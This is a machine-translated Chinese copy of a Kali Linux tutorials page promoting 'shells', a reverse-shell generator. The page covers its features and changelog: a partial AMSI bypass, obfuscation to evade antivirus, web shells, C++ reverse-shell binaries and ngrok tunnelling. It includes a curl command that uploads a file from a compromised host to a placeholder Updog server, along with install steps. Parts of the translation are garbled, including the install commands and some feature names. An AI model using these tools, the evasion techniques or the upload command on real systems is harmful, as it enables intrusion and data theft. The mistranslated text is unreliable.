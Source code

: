 # Shells:生成 Revshells 的小脚本

> 原文：<https://kalilinuxtutorials.com/shells/>

[![](img/3a044936b9d73917c0e48f111a81f29e.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgx0KafKXqM8OiwjpJtispM3OwE2IwzZwCqsAnJB1nbkmlRd3p7AkKZH3T2VJGBUe5dNmRRPpaKa91OiQyG-Y7SfSpXmeQRu9biETP060jZDJj45SomPgEizMoyFulRUr3xYt4mPO2GGg0ERSCBoWQqKwzzhbvFlMpx4fxrh61UGAZNmxQbgG-F4-IZ/s728/shells1(1).png)

**shell**是一个快速简单地生成通用 revshells 的脚本。特别是在需要 PowerShell 和 Python revshells 时，这是一个格式正确的 PITA。

## PowerShell revshells

*   在提示符和工作目录上方显示用户名@计算机
*   部分绕过了 AMSI，使得一些事情变得简单了一些
*   TCP 和 UDP
*   Windows Powershell 和 Core Powershell
*   上传和下载文件的功能。(通过 sc0tfree 使用 [Updog](https://github.com/sc0tfree/updog)

## ngok 支持

*   可以从脚本内部启动/停止 ngrok
*   有效负载将使用 ngrok 地址生成

## 更新支持

*   您可以从脚本内部启动/停止 Updog
*   PowerShell revshells 嵌入了上传/下载功能
*   使用 curl 从 nix 上传:`curl -F path="absolute path for Updog-folder" -F file=filename http://UpdogIP/upload`

### 安装外壳

git 克隆 https://github.com/4ndr34z/shells
CD 壳
。/install.sh

## 截图

![](img/2bb06b761e4f908f0e92bc3e94486c59.png)![](img/7116cf9aaa72e3e29dc026d7cdb8b324.png)![](img/4d5547122b4cf0023b176ad7a3eb3ad0.png)![](img/dbb0b2f7847147dd74e2733ffcc74f53.png)![](img/00b22d3a39dbedbb945b339ecd5431fa.png)![](img/83734e016c2687b502fcf72e312d9637.png)![](img/e30b4834f242e23f86322dbe3b0fefc4.png)

## **YouTube 视频**

[https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed](https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed)

### 版本 1.4.8

*   有时候少即是多。移除 TCP/UDP PowerShell rev shell 上的混淆，因为它实际上触发 AV 的次数比它绕过的次数多，并且有效负载变得非常大🙂还在用随机化。

### 版本 1.4.6

*   添加了 web shell(ASPX、PHP、JSP)

### 版本 1.4.5

*   为 Windows 32 和 64 位添加了 2 个 c++ revshell 二进制文件。

### 版本 1.4.4

*   修正了启动/停止更新的处理

### 版本 1.4.3

*   增加了更新支持
*   添加了 Netcat 二进制文件。
*   Powershell:创建了上传/下载功能(上传需要 Updog 来接收文件)
*   添加了有关运行 ngrok 和 Updog 的更多信息。

### 版本 1.4.2

*   PowerShell:增加了一个新的“迷你 AMSI 旁路”。(这是一个部分旁路)基于马特 Graebers 反射方法
*   PowerShell:在 Powershell reverseshell 中增加了“上传”功能

### 版本 1.4.1

*   移除 AMSI。测试不够🙂

### 1.4 版本

*   为 powershell 有效负载添加了 AMSI 旁路

### 版本 1.3.9

*   修正了设置端口时的错误
*   将默认端口更改为 443
*   PowerShell:更加模糊

### 版本 1.3.8

*   PowerShell:对 UDP 负载的微小更改

### 版本 1.3.7

*   在 macOS 上只使用原生 nc，因为在 homebrew 上的不能在输入 UDP 上工作
*   PowerShell:添加了 UDP 有效负载

### 版本 1.3.6

*   PowerShell:增加了更多有效负载

### 版本 1.3.5

*   PowerShell:为有效负载添加了一些随机化和模糊处理

### 版本 1.3.4

*   PowerShell:在有效负载中使用 UTF8 编码

### 版本 1.3.3

*   戈朗补充道

### 版本 1.3.2

*   添加了 OpenSSL

### 版本 1.3.1

*   修正了 Python revshell 中的 bug
*   添加 awk
*   添加了 Bash UDP

### 版本 1.3

*   添加了 Windows Python revshells

### 版本 1.2.9

*   添加了一个 ngrok 运行状态

### 版本 1.2.8

*   如果没有安装，隐藏 ngrok 选项

### 版本 1.2.7

*   修正了安装选项:不做默认选项时，按下回车键没有作出选择

### 版本 1.2.6

*   增加了对 ngrok 的支持。

### 版本 1.2.4

*   添加了安装脚本
*   添加了用于检查和安装缺失依赖项的安装选项

### 版本 1.2.3

*   添加了几个 PHP 外壳

### 版本 1.2.2

*   为 Ruby、Perl、Telnet 和 zsh 添加了 shells

### 版本 1.2.1

*   在 macOS 上使用 pbcopy 将副本添加到剪贴板
*   添加了关于监听 netcat 的信息，因为 macOS 版本不显示该信息

### 版本 1.2

*   增加了循环 netcat 外壳。每 10 秒回一次电话。万一你失去了你的壳
*   增加了 netcat GNU netcat 0.7.0 自制程序在 macOS 上运行时的检查

### 版本 1.1

*   增加了对 macOS 的支持

[Click Here To Download](https://github.com/4ndr34z/shells/)